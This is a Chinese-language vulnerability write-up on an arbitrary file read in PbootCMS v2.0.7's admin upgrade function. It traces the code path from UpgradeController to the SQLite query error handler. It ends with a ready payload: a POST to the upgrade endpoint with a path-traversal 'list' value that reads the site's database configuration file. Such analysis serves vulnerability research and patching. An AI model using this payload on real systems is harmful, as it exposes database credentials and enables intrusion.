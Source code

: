 PbootCMS v2.0.7 任意文件读取
============================

一、漏洞简介
------------

仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录

二、漏洞影响
------------

PbootCMS v2.0.7

三、复现过程
------------

### 漏洞分析

漏洞文件`apps/admin/controller/system/UpgradeController.php`

    <?php
        ...
        public function update(){
            if ($_POST) {
                if (! ! $list = post('list')) {
                    $list = explode(',', $list);
                    $backdir = date('YmdHis');

                    // 分离文件
                    foreach ($list as $value) {
                        if (stripos($value, '/script/') !== false) {
                            $sqls[] = $value;
                        } else {
                            $path = RUN_PATH . '/upgrade' . $value;
                            $des_path = ROOT_PATH . $value;
                            $back_path = DOC_PATH . STATIC_DIR . '/backup/upgrade/' . $backdir . $value;
                            if (! check_dir(dirname($des_path), true)) {
                                json(0, '目录写入权限不足，无法正常升级！' . dirname($des_path));
                            }
                            if (file_exists($des_path)) { // 文件存在时执行备份
                                check_dir(dirname($back_path), true);
                                copy($des_path, $back_path);
                            }

                            // 如果后台入口文件修改过名字，则自动适配
                            if (stripos($path, 'admin.php') !== false && stripos($_SERVER['SCRIPT_FILENAME'], 'admin.php') === false) {
                                if (file_exists($_SERVER['SCRIPT_FILENAME'])) {
                                    $des_path = $_SERVER['SCRIPT_FILENAME'];
                                }
                            }

                            $files[] = array(
                                'sfile' => $path,
                                'dfile' => $des_path
                            );
                        }
                    }

                    // 更新数据库
                    if (isset($sqls)) {
                        $db = new DatabaseController();
                        switch (get_db_type()) {
                            case 'sqlite':
                                copy(DOC_PATH . $this->config('database.dbname'), DOC_PATH . STATIC_DIR . '/backup/sql/' . date('YmdHis') . '_' . basename($this->config('database.dbname')));
                                break;
                            case 'mysql':
                                $db->backupDB();
                                break;
                        }
                        sort($sqls); // 排序
                        foreach ($sqls as $value) {
                            $path = RUN_PATH . '/upgrade' . $value;
                            if (file_exists($path)) {
                                //echo $path;
                                //exit;
                                $sql = file_get_contents($path);
                                if (! $this->upsql($sql)) {
                                    $this->log("数据库 $value 更新失败!");
                                    json(0, "数据库" . basename($value) . " 更新失败！");
                                }
                            } else {
                                json(0, "数据库文件" . basename($value) . "不存在！");
                            }
                        }
                    }

                    // 替换文件
                    if (isset($files)) {
                        foreach ($files as $value) {
                            if (! copy($value['sfile'], $value['dfile'])) {
                                $this->log("文件 " . $value['dfile'] . " 更新失败!");
                                json(0, "文件 " . basename($value['dfile']) . " 更新失败，请重试!");
                            }
                        }
                    }

                    // 清理缓存
                    path_delete(RUN_PATH . '/upgrade', true);
                    path_delete(RUN_PATH . '/cache');
                    path_delete(RUN_PATH . '/complite');
                    path_delete(RUN_PATH . '/config');

                    $this->log("系统更新成功!");
                    json(1, '系统更新成功！');
                } else {
                    json(0, '请选择要更新的文件！');
                }
            }
        }
        ...
    ?>

可以看到注释写着更新数据库的部分，将`$sqls`遍历出来后放进了`file_get_contents`函数，然后调用了一个`upsql()`方法。跟过去看一下。

    <?php
        // 执行更新数据库
        private function upsql($sql){
            $sql = explode(';', $sql);
            $model = new Model();
            foreach ($sql as $value) {
                $value = trim($value);
                if ($value) {
                    $model->amd($value);
                }
            }
            return true;
        }
    ?>

将传过来的字符串用`;`分隔后又调用了一个`Model::amd()`方法。继续跟下去。

文件`core/database/Sqlite.php`

    <?php
        ...
        // 数据增、删、改模型，接受完整SQL语句，返回影响的行数的int数据
        public function amd($sql){
            $result = $this->query($sql, 'master');
            if ($result) {
                return $result;
            } else {
                return 0;
            }
        }
        // 执行SQL语句,接受完整SQL语句，返回结果集对象
        public function query($sql, $type = 'master'){
            ...
            switch ($type) {
                case 'master':
                    if (! $this->begin) { // 存在写入时自动开启显式事务，提高写入性能
                        $this->master->exec('begin;');
                        $this->begin = true;
                    }
                    $result = $this->master->exec($sql) or $this->error($sql, 'master');
                    break;
                case 'slave':
                    $result = $this->slave->query($sql) or $this->error($sql, 'slave');
                    break;
            }
            return $result;
        }
        // 显示执行错误
        protected function error($sql, $conn){
            $err = '错误：' . $this->$conn->lastErrorMsg() . '，';
            if ($this->begin) { // 存在显式开启事务时进行回滚
                $this->master->exec('rollback;');
                $this->begin = false;
            }
            error('执行SQL发生错误！' . $err . '语句：' . $sql);
        }
        ...
    ?>

这里的`amd()`方法又调用了一个`query()`方法，在`query()`方法里可以看到直接将`$sql`放进SQL执行函数里，如果执行失败，直接将`$sql`打印出来。

这样看下来这里的漏洞可以拿来执行任意SQL语句，但是由于这里用的是`sqlite`数据库，且当前已经在后台里了，所以这里的任意SQL执行也没啥可以利用的。**（可能可以审一下用数据库里的数据当做输入的点，没准能利用起来）**

但是由于正常的文件内容读出来直接当做SQL语句执行肯定会报错，所以这里可以用来读取文件。

经过回溯可以发现`$sqls`，使用的POST传输过来的数据，且数据中需要有`/script/`字符串。

### payload

    URL: http://www.0-sec.org/admin.php?p=/Upgrade/update
    POST: list=/script/../../../config/database.php

即可读取到文件\*\*（仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录）\*\*

参考链接
--------

> https://xz.aliyun.com/t/7628
